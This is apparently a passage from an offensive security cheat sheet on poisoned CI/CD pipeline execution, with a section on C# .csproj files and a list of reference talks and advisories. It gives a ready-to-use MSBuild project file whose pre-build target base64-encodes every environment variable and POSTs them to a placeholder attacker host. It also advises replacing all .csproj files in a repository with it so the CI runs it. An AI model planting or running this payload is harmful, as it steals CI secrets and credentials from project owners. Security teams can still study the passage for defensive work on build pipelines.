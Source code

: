 
### C# - *.csproj

> `.csproj` files are build file for the `C#` runtime.\
> They are constructed as XML files that contain the different dependencies that are required to build the project.\
> Replacing all the `.csproj` files in the repo with the following payload may trigger their execution by the CI.

NOTE: Since this is an XML file - XML special characters must be escaped.


```powershell
<Project>
 <Target Name="SendEnvVariables" BeforeTargets="Build;BeforeBuild;BeforeCompile">
   <Exec Command="powershell -Command &quot;$envBody = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-ChildItem env: | Format-List | Out-String))); Invoke-WebRequest -Uri {YourHostName} -Method POST -Body $envBody&quot;" />
 </Target>
</Project>
```




## References

* [Poisoned Pipeline Execution](https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/)
* [DEF CON 25 - spaceB0x - Exploiting Continuous Integration (CI) and Automated Build systems](https://youtu.be/mpUDqo7tIk8)
* [Azure-Devops-Command-Injection](https://pulsesecurity.co.nz/advisories/Azure-Devops-Command-Injection)
* [x33fcon lighting talk - Hacking Java serialization from python - Tomasz Bukowski](https://youtu.be/14tNFwfety4)